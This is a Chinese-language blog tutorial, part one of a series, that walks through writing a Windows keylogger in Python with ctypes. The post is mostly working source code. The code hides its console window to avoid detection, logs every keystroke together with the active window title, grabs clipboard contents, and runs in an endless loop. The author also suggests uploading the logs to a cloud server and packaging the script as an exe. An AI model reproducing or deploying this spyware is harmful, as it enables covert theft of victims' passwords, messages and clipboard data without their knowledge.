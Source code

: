 ```yaml
---
title: 建立键盘记录器part1
description: 使用python编写键盘记录器.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


>如想有更好的了解请查看[原文](https://0x00sec.org/t/malware-writing-python-malware-part-1/11700)

## 一、导入标准库，隐藏控制台窗口

导入提供所需功能的Windows DLL。所需`kernel32.dll`与`user32.dll`，为避免怀疑隐藏控制台窗口。
	
```python
import ctypes    #提供C兼容的数据类型
import logging   #用于记录键盘记录

kernel32  = ctypes.windll.kernel32    #调用kernel32.dll
user32 = ctypes.windll.user32         #调用user32.dll

user32.ShowWindow(kernel32.GetConsoleWindow(),0)    #隐藏窗口
```

## 二、get_current_window()

获取当前窗口标题，以便知道记录的是用户使用的哪个程序。
	
```python
def get_current_window():    #抓取当前窗口标题
    #必需的WinAPI函数
    GetForegroundWindow = user32.GetForegroundWindow
    GetWindowTextLength = user32.GetWindowTextLengthW
    GetWindowText = user32.GetWindowTextW

    hwnd = GetForegroundWindow()    #获取当前窗口句柄
    length = GetWindowTextLength(hwnd)    #获取标题文本长度，将句柄乍为参数传递
    buff = ctypes.create_unicode_buffer(length + 1)    #创建临时缓存buff用于存储标题文本

    GetWindowText(hwnd, buff, length + 1)    #获取窗口标题并存储在buff中

    return buff.value    #返回buff的值
```

## 三、get_clipboard()

捕获剪贴板内容。tips：使用`PyWin32`可以用更少的代码完成些操作

```python
def get_clipboard():

    CF_TEXT = 1    #设置剪贴板格式

    #GlobalLock/GlobalUnlock 参数与返回类型
    kernel32.GlobalLock.argtypes = [ctypes.c_void_p]
    kernel32.GlobalLock.restype = ctypes.c_void_p
    kernel32.GlobalUnlock.argtypes = [ctypes.c_void_p]

    #GetClipboardData的返回类型
    user32.GetClipboardData.restype = ctypes.c_void_p
    user32.OpenClipboard(0)

    #所需剪贴板函数
    IsClipboardFormatAvailable = user32.IsClipboardFormatAvailable
    GetClipboardData = user32.GetClipboardData
    CloseClipboard = user32.CloseClipboard

    try:
        if IsClipboardFormatAvailable(CF_TEXT):    #如果CF_TEXT可用
            data = GetClipboardData(CF_TEXT)    #获取剪贴板数据的句柄
            data_locked = kernel32.GlobalLock(data)    #获取指向数据所在的内存位置的指针
            text = ctypes.c_char_p(data_locked)    #获取指向data_locked位置的char*(python中的字符串)指针
            value = text.value    #存储有用的值
            kernel32.GlobalUnlock(data_locked)    #递减锁计数
            return value.decode('utf-8')    #返回剪贴板的值
    finally:
        CloseClipboard()    #关闭剪贴板
```

## 四、get_keystrokes()

监听并记录敲击字符并记录。函数调用时需传入两个参数，日志文件存储目录和文件名。
按键记录使用`while`死循环，原因不希望键盘记录停止。但如果我们要同时执行其他任务，则需要使用多线程或单独的进程中与其他函数一并运行它。

```python
def get_keystrokes(log_dir,log_name):    #监听与记录敲击键盘内容
    #记录
    logging.basicConfig(filename=(log_dir + '\\' + log_name),level=logging.DEBUG,format='%(message)s')

    GetAsyncKeyState = user32.GetAsyncKeyState    #WinAPI函数，确定按键是向上还是向下
    special_keys = {
        0x08: 'BS',
        0x09: 'Tap',
        0x10: 'Shift',
        0x11: 'Ctrl',
        0x12: 'Alt',
        0x14: 'CapsLock',
        0x1b: 'Esc',
        0x20: 'Space',
        0x2e: 'Del',
    }
    current_window = None
    line = []    #存储点击的字符

    while True:
        if current_window != get_current_window():    #判断current_window内容不是当前打开的窗口
            current_window = get_current_window()    #将窗口标题放在current_window中
            logging.info(str(current_window))    #将当前窗口标题写入日志文件

        for i in range(1,256):    #256个ASCII字符
            if GetAsyncKeyState(i) & 1:    #如果点击某个键并匹配ASCII字符
                if i in special_keys:    #如果是特殊键，这样记录
                    logging.info("<{}>".format(special_keys[i]))
                elif i == 0x0d:    #如果键入<ENTER>，则记录然后清除行变量
                    logging.info(line)
                    line.clear()
                elif i ==0x63 or i == 0x43 or i == 0x56 or i ==0x76:    #如果点击字符'c'或'v'，则获取剪贴板数据
                    clipboard_data = get_clipboard()
                    logging.info("[CLIPBOARD] {}".format(clipboard_data))
                elif 0x30 <= i <= 0x5a:    #如果是字母数字字符，则追加到line
                    line.append(chr(i))
```

后续可自加代码，如定时将记录文件上传到云服务器 :grin: 

将py文件用pyinstaller打包成exe并运行，因为使用while True死循环，cpu占用较高，这点将在part2解决。

![part1_1](https://yui77111.github.io/assets/images/article/python/1_1.png)

![part1_2](https://yui77111.github.io/assets/images/article/python/1_2.png)

![part1_3](https://yui77111.github.io/assets/images/article/python/1_3.png)

源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/keylogger/part1.py)